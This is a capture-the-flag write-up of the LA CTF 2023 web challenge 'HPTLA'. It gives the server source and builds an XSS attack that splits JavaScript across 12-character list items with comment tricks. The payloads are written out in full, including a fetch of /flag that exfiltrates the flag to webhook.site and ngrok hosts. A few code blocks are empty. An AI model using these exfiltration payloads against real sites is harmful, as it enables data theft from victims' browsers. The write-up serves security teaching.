

# HPTLA

This was a web challenge from LA CTF 2023.


## Analysis

The challenge page looks like this where you can enter a list of items:


When you submit your list, the server assigns a UUID and associates with it an html bulleted list of your items.

https://hptla.lac.tf/view.html#236677b8-ff3f-4fcc-b9d5-19b4dbd97252


Here is the provided source:

`index.js`

```javascript
const express = require("express");
const path = require("path");
const { v4: uuid } = require("uuid");
const cookieParser = require("cookie-parser");

const flag = process.env.FLAG;
const port = parseInt(process.env.PORT) || 8080;
const adminpw = process.env.ADMINPW || "placeholder";

const app = express();

const lists = new Map();

let cleanup = [];

setInterval(() => {
    const now = Date.now();
    let i = cleanup.findIndex(x => now < x[1]);
    if (i === -1) {
        i = cleanup.length;
    }
    for (let j = 0; j < i; j ++) {
        lists.delete(cleanup[j][0]);
    }
    cleanup = cleanup.slice(i);
}, 1000 * 60);

app.use(cookieParser());
app.use(express.urlencoded({ extended: false }));
app.use((req, res, next) => {
    res.set(
        "Content-Security-Policy",
        "default-src 'self'; script-src 'self' 'unsafe-inline'"
    );
    next();
});
app.use(express.static(path.join(__dirname, "static")));

app.post("/list", (req, res) => {
    res.type("text/plain");
    const list = req.body.list;
    if (typeof list !== "string") {
        res.status(400).send("no list provided");
        return;
    }
    const parsed = list
        .trim()
        .split("\n")
        .map((x) => x.trim());
    if (parsed.length > 20) {
        res.status(400).send("list must have at most 20 items");
        return;
    }
    if (parsed.some((x) => x.length > 12)) {
        res.status(400).send("list items must not exceed 12 characters");
        return;
    }
    const id = uuid();
    lists.set(id, parsed);
    cleanup.push([id, Date.now() + 1000 * 60 * 60 * 3]);
    res.send(id);
});

app.get("/list/:id", (req, res) => {
    res.type("application/json");
    if (lists.has(req.params.id)) {
        res.send(lists.get(req.params.id));
    } else {
        res.status(400).send({error: "list doesn't exist"});
    }
});

app.get("/flag", (req, res) => {
    res.type("text/plain");
    if (req.cookies.adminpw === adminpw) {
        res.send(flag);
    } else {
        res.status(401).send("haha no");
    }
});

app.listen(port, () => {
    console.log(`Listening on port ${port}`);
});
```

From this we can see that there are some restrictions on our items:

- each item has length <= 12
- max 20 items

However, our items are passed through unfiltered so XSS seems possible.

Also notice that this provides the following Content Security Policy:

```
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'
```

Since `unsafe-inline` is present, we can inject javascript and it will run it.

We can see that our goal is to craft an XSS payload that, when visited by the admin bot, will make a call to the `/flag` endpoint, receive the flag and exfiltrate it.

Clearly the XSS payload will be... tricky.


## XSS POC

Let's prove that XSS is possible.

After some struggling, I found this POC:

```

```

Here is what the payload looks like in HTML:

```html
</li><li><input type=&quot;checkbox&quot; id=&quot;item1&quot;><label for=&quot;item1&quot;>" onerror="/*</label></li><li><input type=&quot;checkbox&quot; id=&quot;item2&quot;><label for=&quot;item2&quot;>*/alert(1)">
```

To make this easier to understand, I'll trim out some of the noise:

```html

```

In case you are not familiar with this approach, the browser will try to load the resource specified by the `src` attribute. Since that is a bunch of junk, that will fail to load. In that case, the browser will execute the script contained in the `onerror` attribute. Thus, it pops the alert box.

Notice how the /* ... */ comment syntax hides the intervening html allowing the end result to be valid javascript.

Also note that I'm not trying for `<script>...</script>` here.  The main reason is because it won't work.  The web page has a script that makes an HTTP request to get the payload and then stores it via an `innerHTML` property on one of the elements. Browsers will not run script elements when they are inserted this way. That behavior seems a litttle silly since you can run scripts in so many other ways.

## Contemplating an Exfiltration Script

If i had no limitations, an exfiltration script might look like this:

```javascript
fetch("/flag").then(r=>r.text()).then(d=>location.href="https://webhook.site/d14effdcd-ca5f-43ae-b2cb-727fddbbc870?"+d)
```

If I tried to build this as a list, it would have a shape like this:

```html

```

We can put anything we want in the `????????` blocks as long as each block is a legal javascript token.

Since we don't know how it will end up, let's just start by trying to make our exfil script fit into the given constraints and see how it goes:

```html
r.text/*
*/()).then/*
*/(d=>/*
*/location/*
*/.href=/*
*/"https:"/*
*/+"//web"/*
*/+"hook."/*
*/+"site/"/*
*/+"d14ef"/*
*/+"fdcd-"/*
*/+"ca5f-"/*
*/+"43ae-"/*
*/+"b2cb-"/*
*/+"727fd"/*
*/+"dbbc8"/*
*/+"70?"+d/*
*/)'>
```

This looks like might work BUT it is 24 items and we are limited to only 20.

It seems like a shorter exfiltration URL might save the day.


## Getting the Flag

I fired up a local web server on my laptop and the ran `ngrok` against it to see what kind of URL it would give me:


If you don't have ngrok in your tool belt, for sure go register for a free account and install the utility. When you run it, it assigns you a public facing URL and any traffic that goes to it is tunneled to your computer to whatever port you tell it. This is really nice since you don't have to open any ports in your local home router.

Here, I'm running a local nodejs express web server on port 5050.

Notice it also gives you a Web Interface so you can easily view the traffic.

That URL is quite a bit shorter. Let's retry with that:

```
r.text/*
*/()).then/*
*/(d=>/*
*/location/*
*/.href=/*
*/"http:/"/*
*/+"/be34"/*
*/+"-76-1"/*
*/+"12-10"/*
*/+"3-115"/*
*/+".ngro"/*
*/+"k.io?"/*
*/+d)'>
```

This is only 18 lines!

When I submit this payload, the attack works locally.  I see this in the ngrok Web Interface:




The bummer is that my payload navigated away from the injected page and so I lost the URL. I had to use the devtools network tab to reconstruct it.

I then submitted that URL to the admin but and got this in my ngrok Web Interface:


So, the main tricks here were:

- figure out a way to string together javascript in small chunks
- have a small enough exfil URL

Note that I could have opened a port in my home router and then had an even shorter URL using my IP address.

Thanks LA CTF for a fun web challenge.

## Addendum

In case it is interesting, during the CTF, I actually solved this using a slightly different approach where I used up the first several blocks gaining access to `location.search.split("|")` and storing that into a variable `q`. I could then put really long strings (like the webook.site URL) into the query string of my URL and access them like `q[1]`. While this worked, it is pretty ugly.  The above solve is much cleaner.

For posterity, here's the ugly solve:

```
r[q[3]/*
*/]());h[t/*
*/](d=>{/*
*/location/*
*/.href=/*
*/q[4]+d/*
*/})'>
```

The URL was like this:

```
https://hptla.lac.tf/view.html?|/flag|then|text|https://webhook.site/d14effdc-ca5e-43ae-b2cb-727fddbbc870?flag=#4a9edf03-08e7-4f7b-859f-be062c8a606b
```

Which meant the following values for the `q` array:

```
q[1]=/flag
q[2]=then
q[3]=text
q[4]=https://webhook.site/d14effdc-ca5e-43ae-b2cb-727fddbbc870?flag=
```

The general idea of accessing some kind of external source for long strings is a useful notion to keep in mind. It can often help you bypass filters with length limits.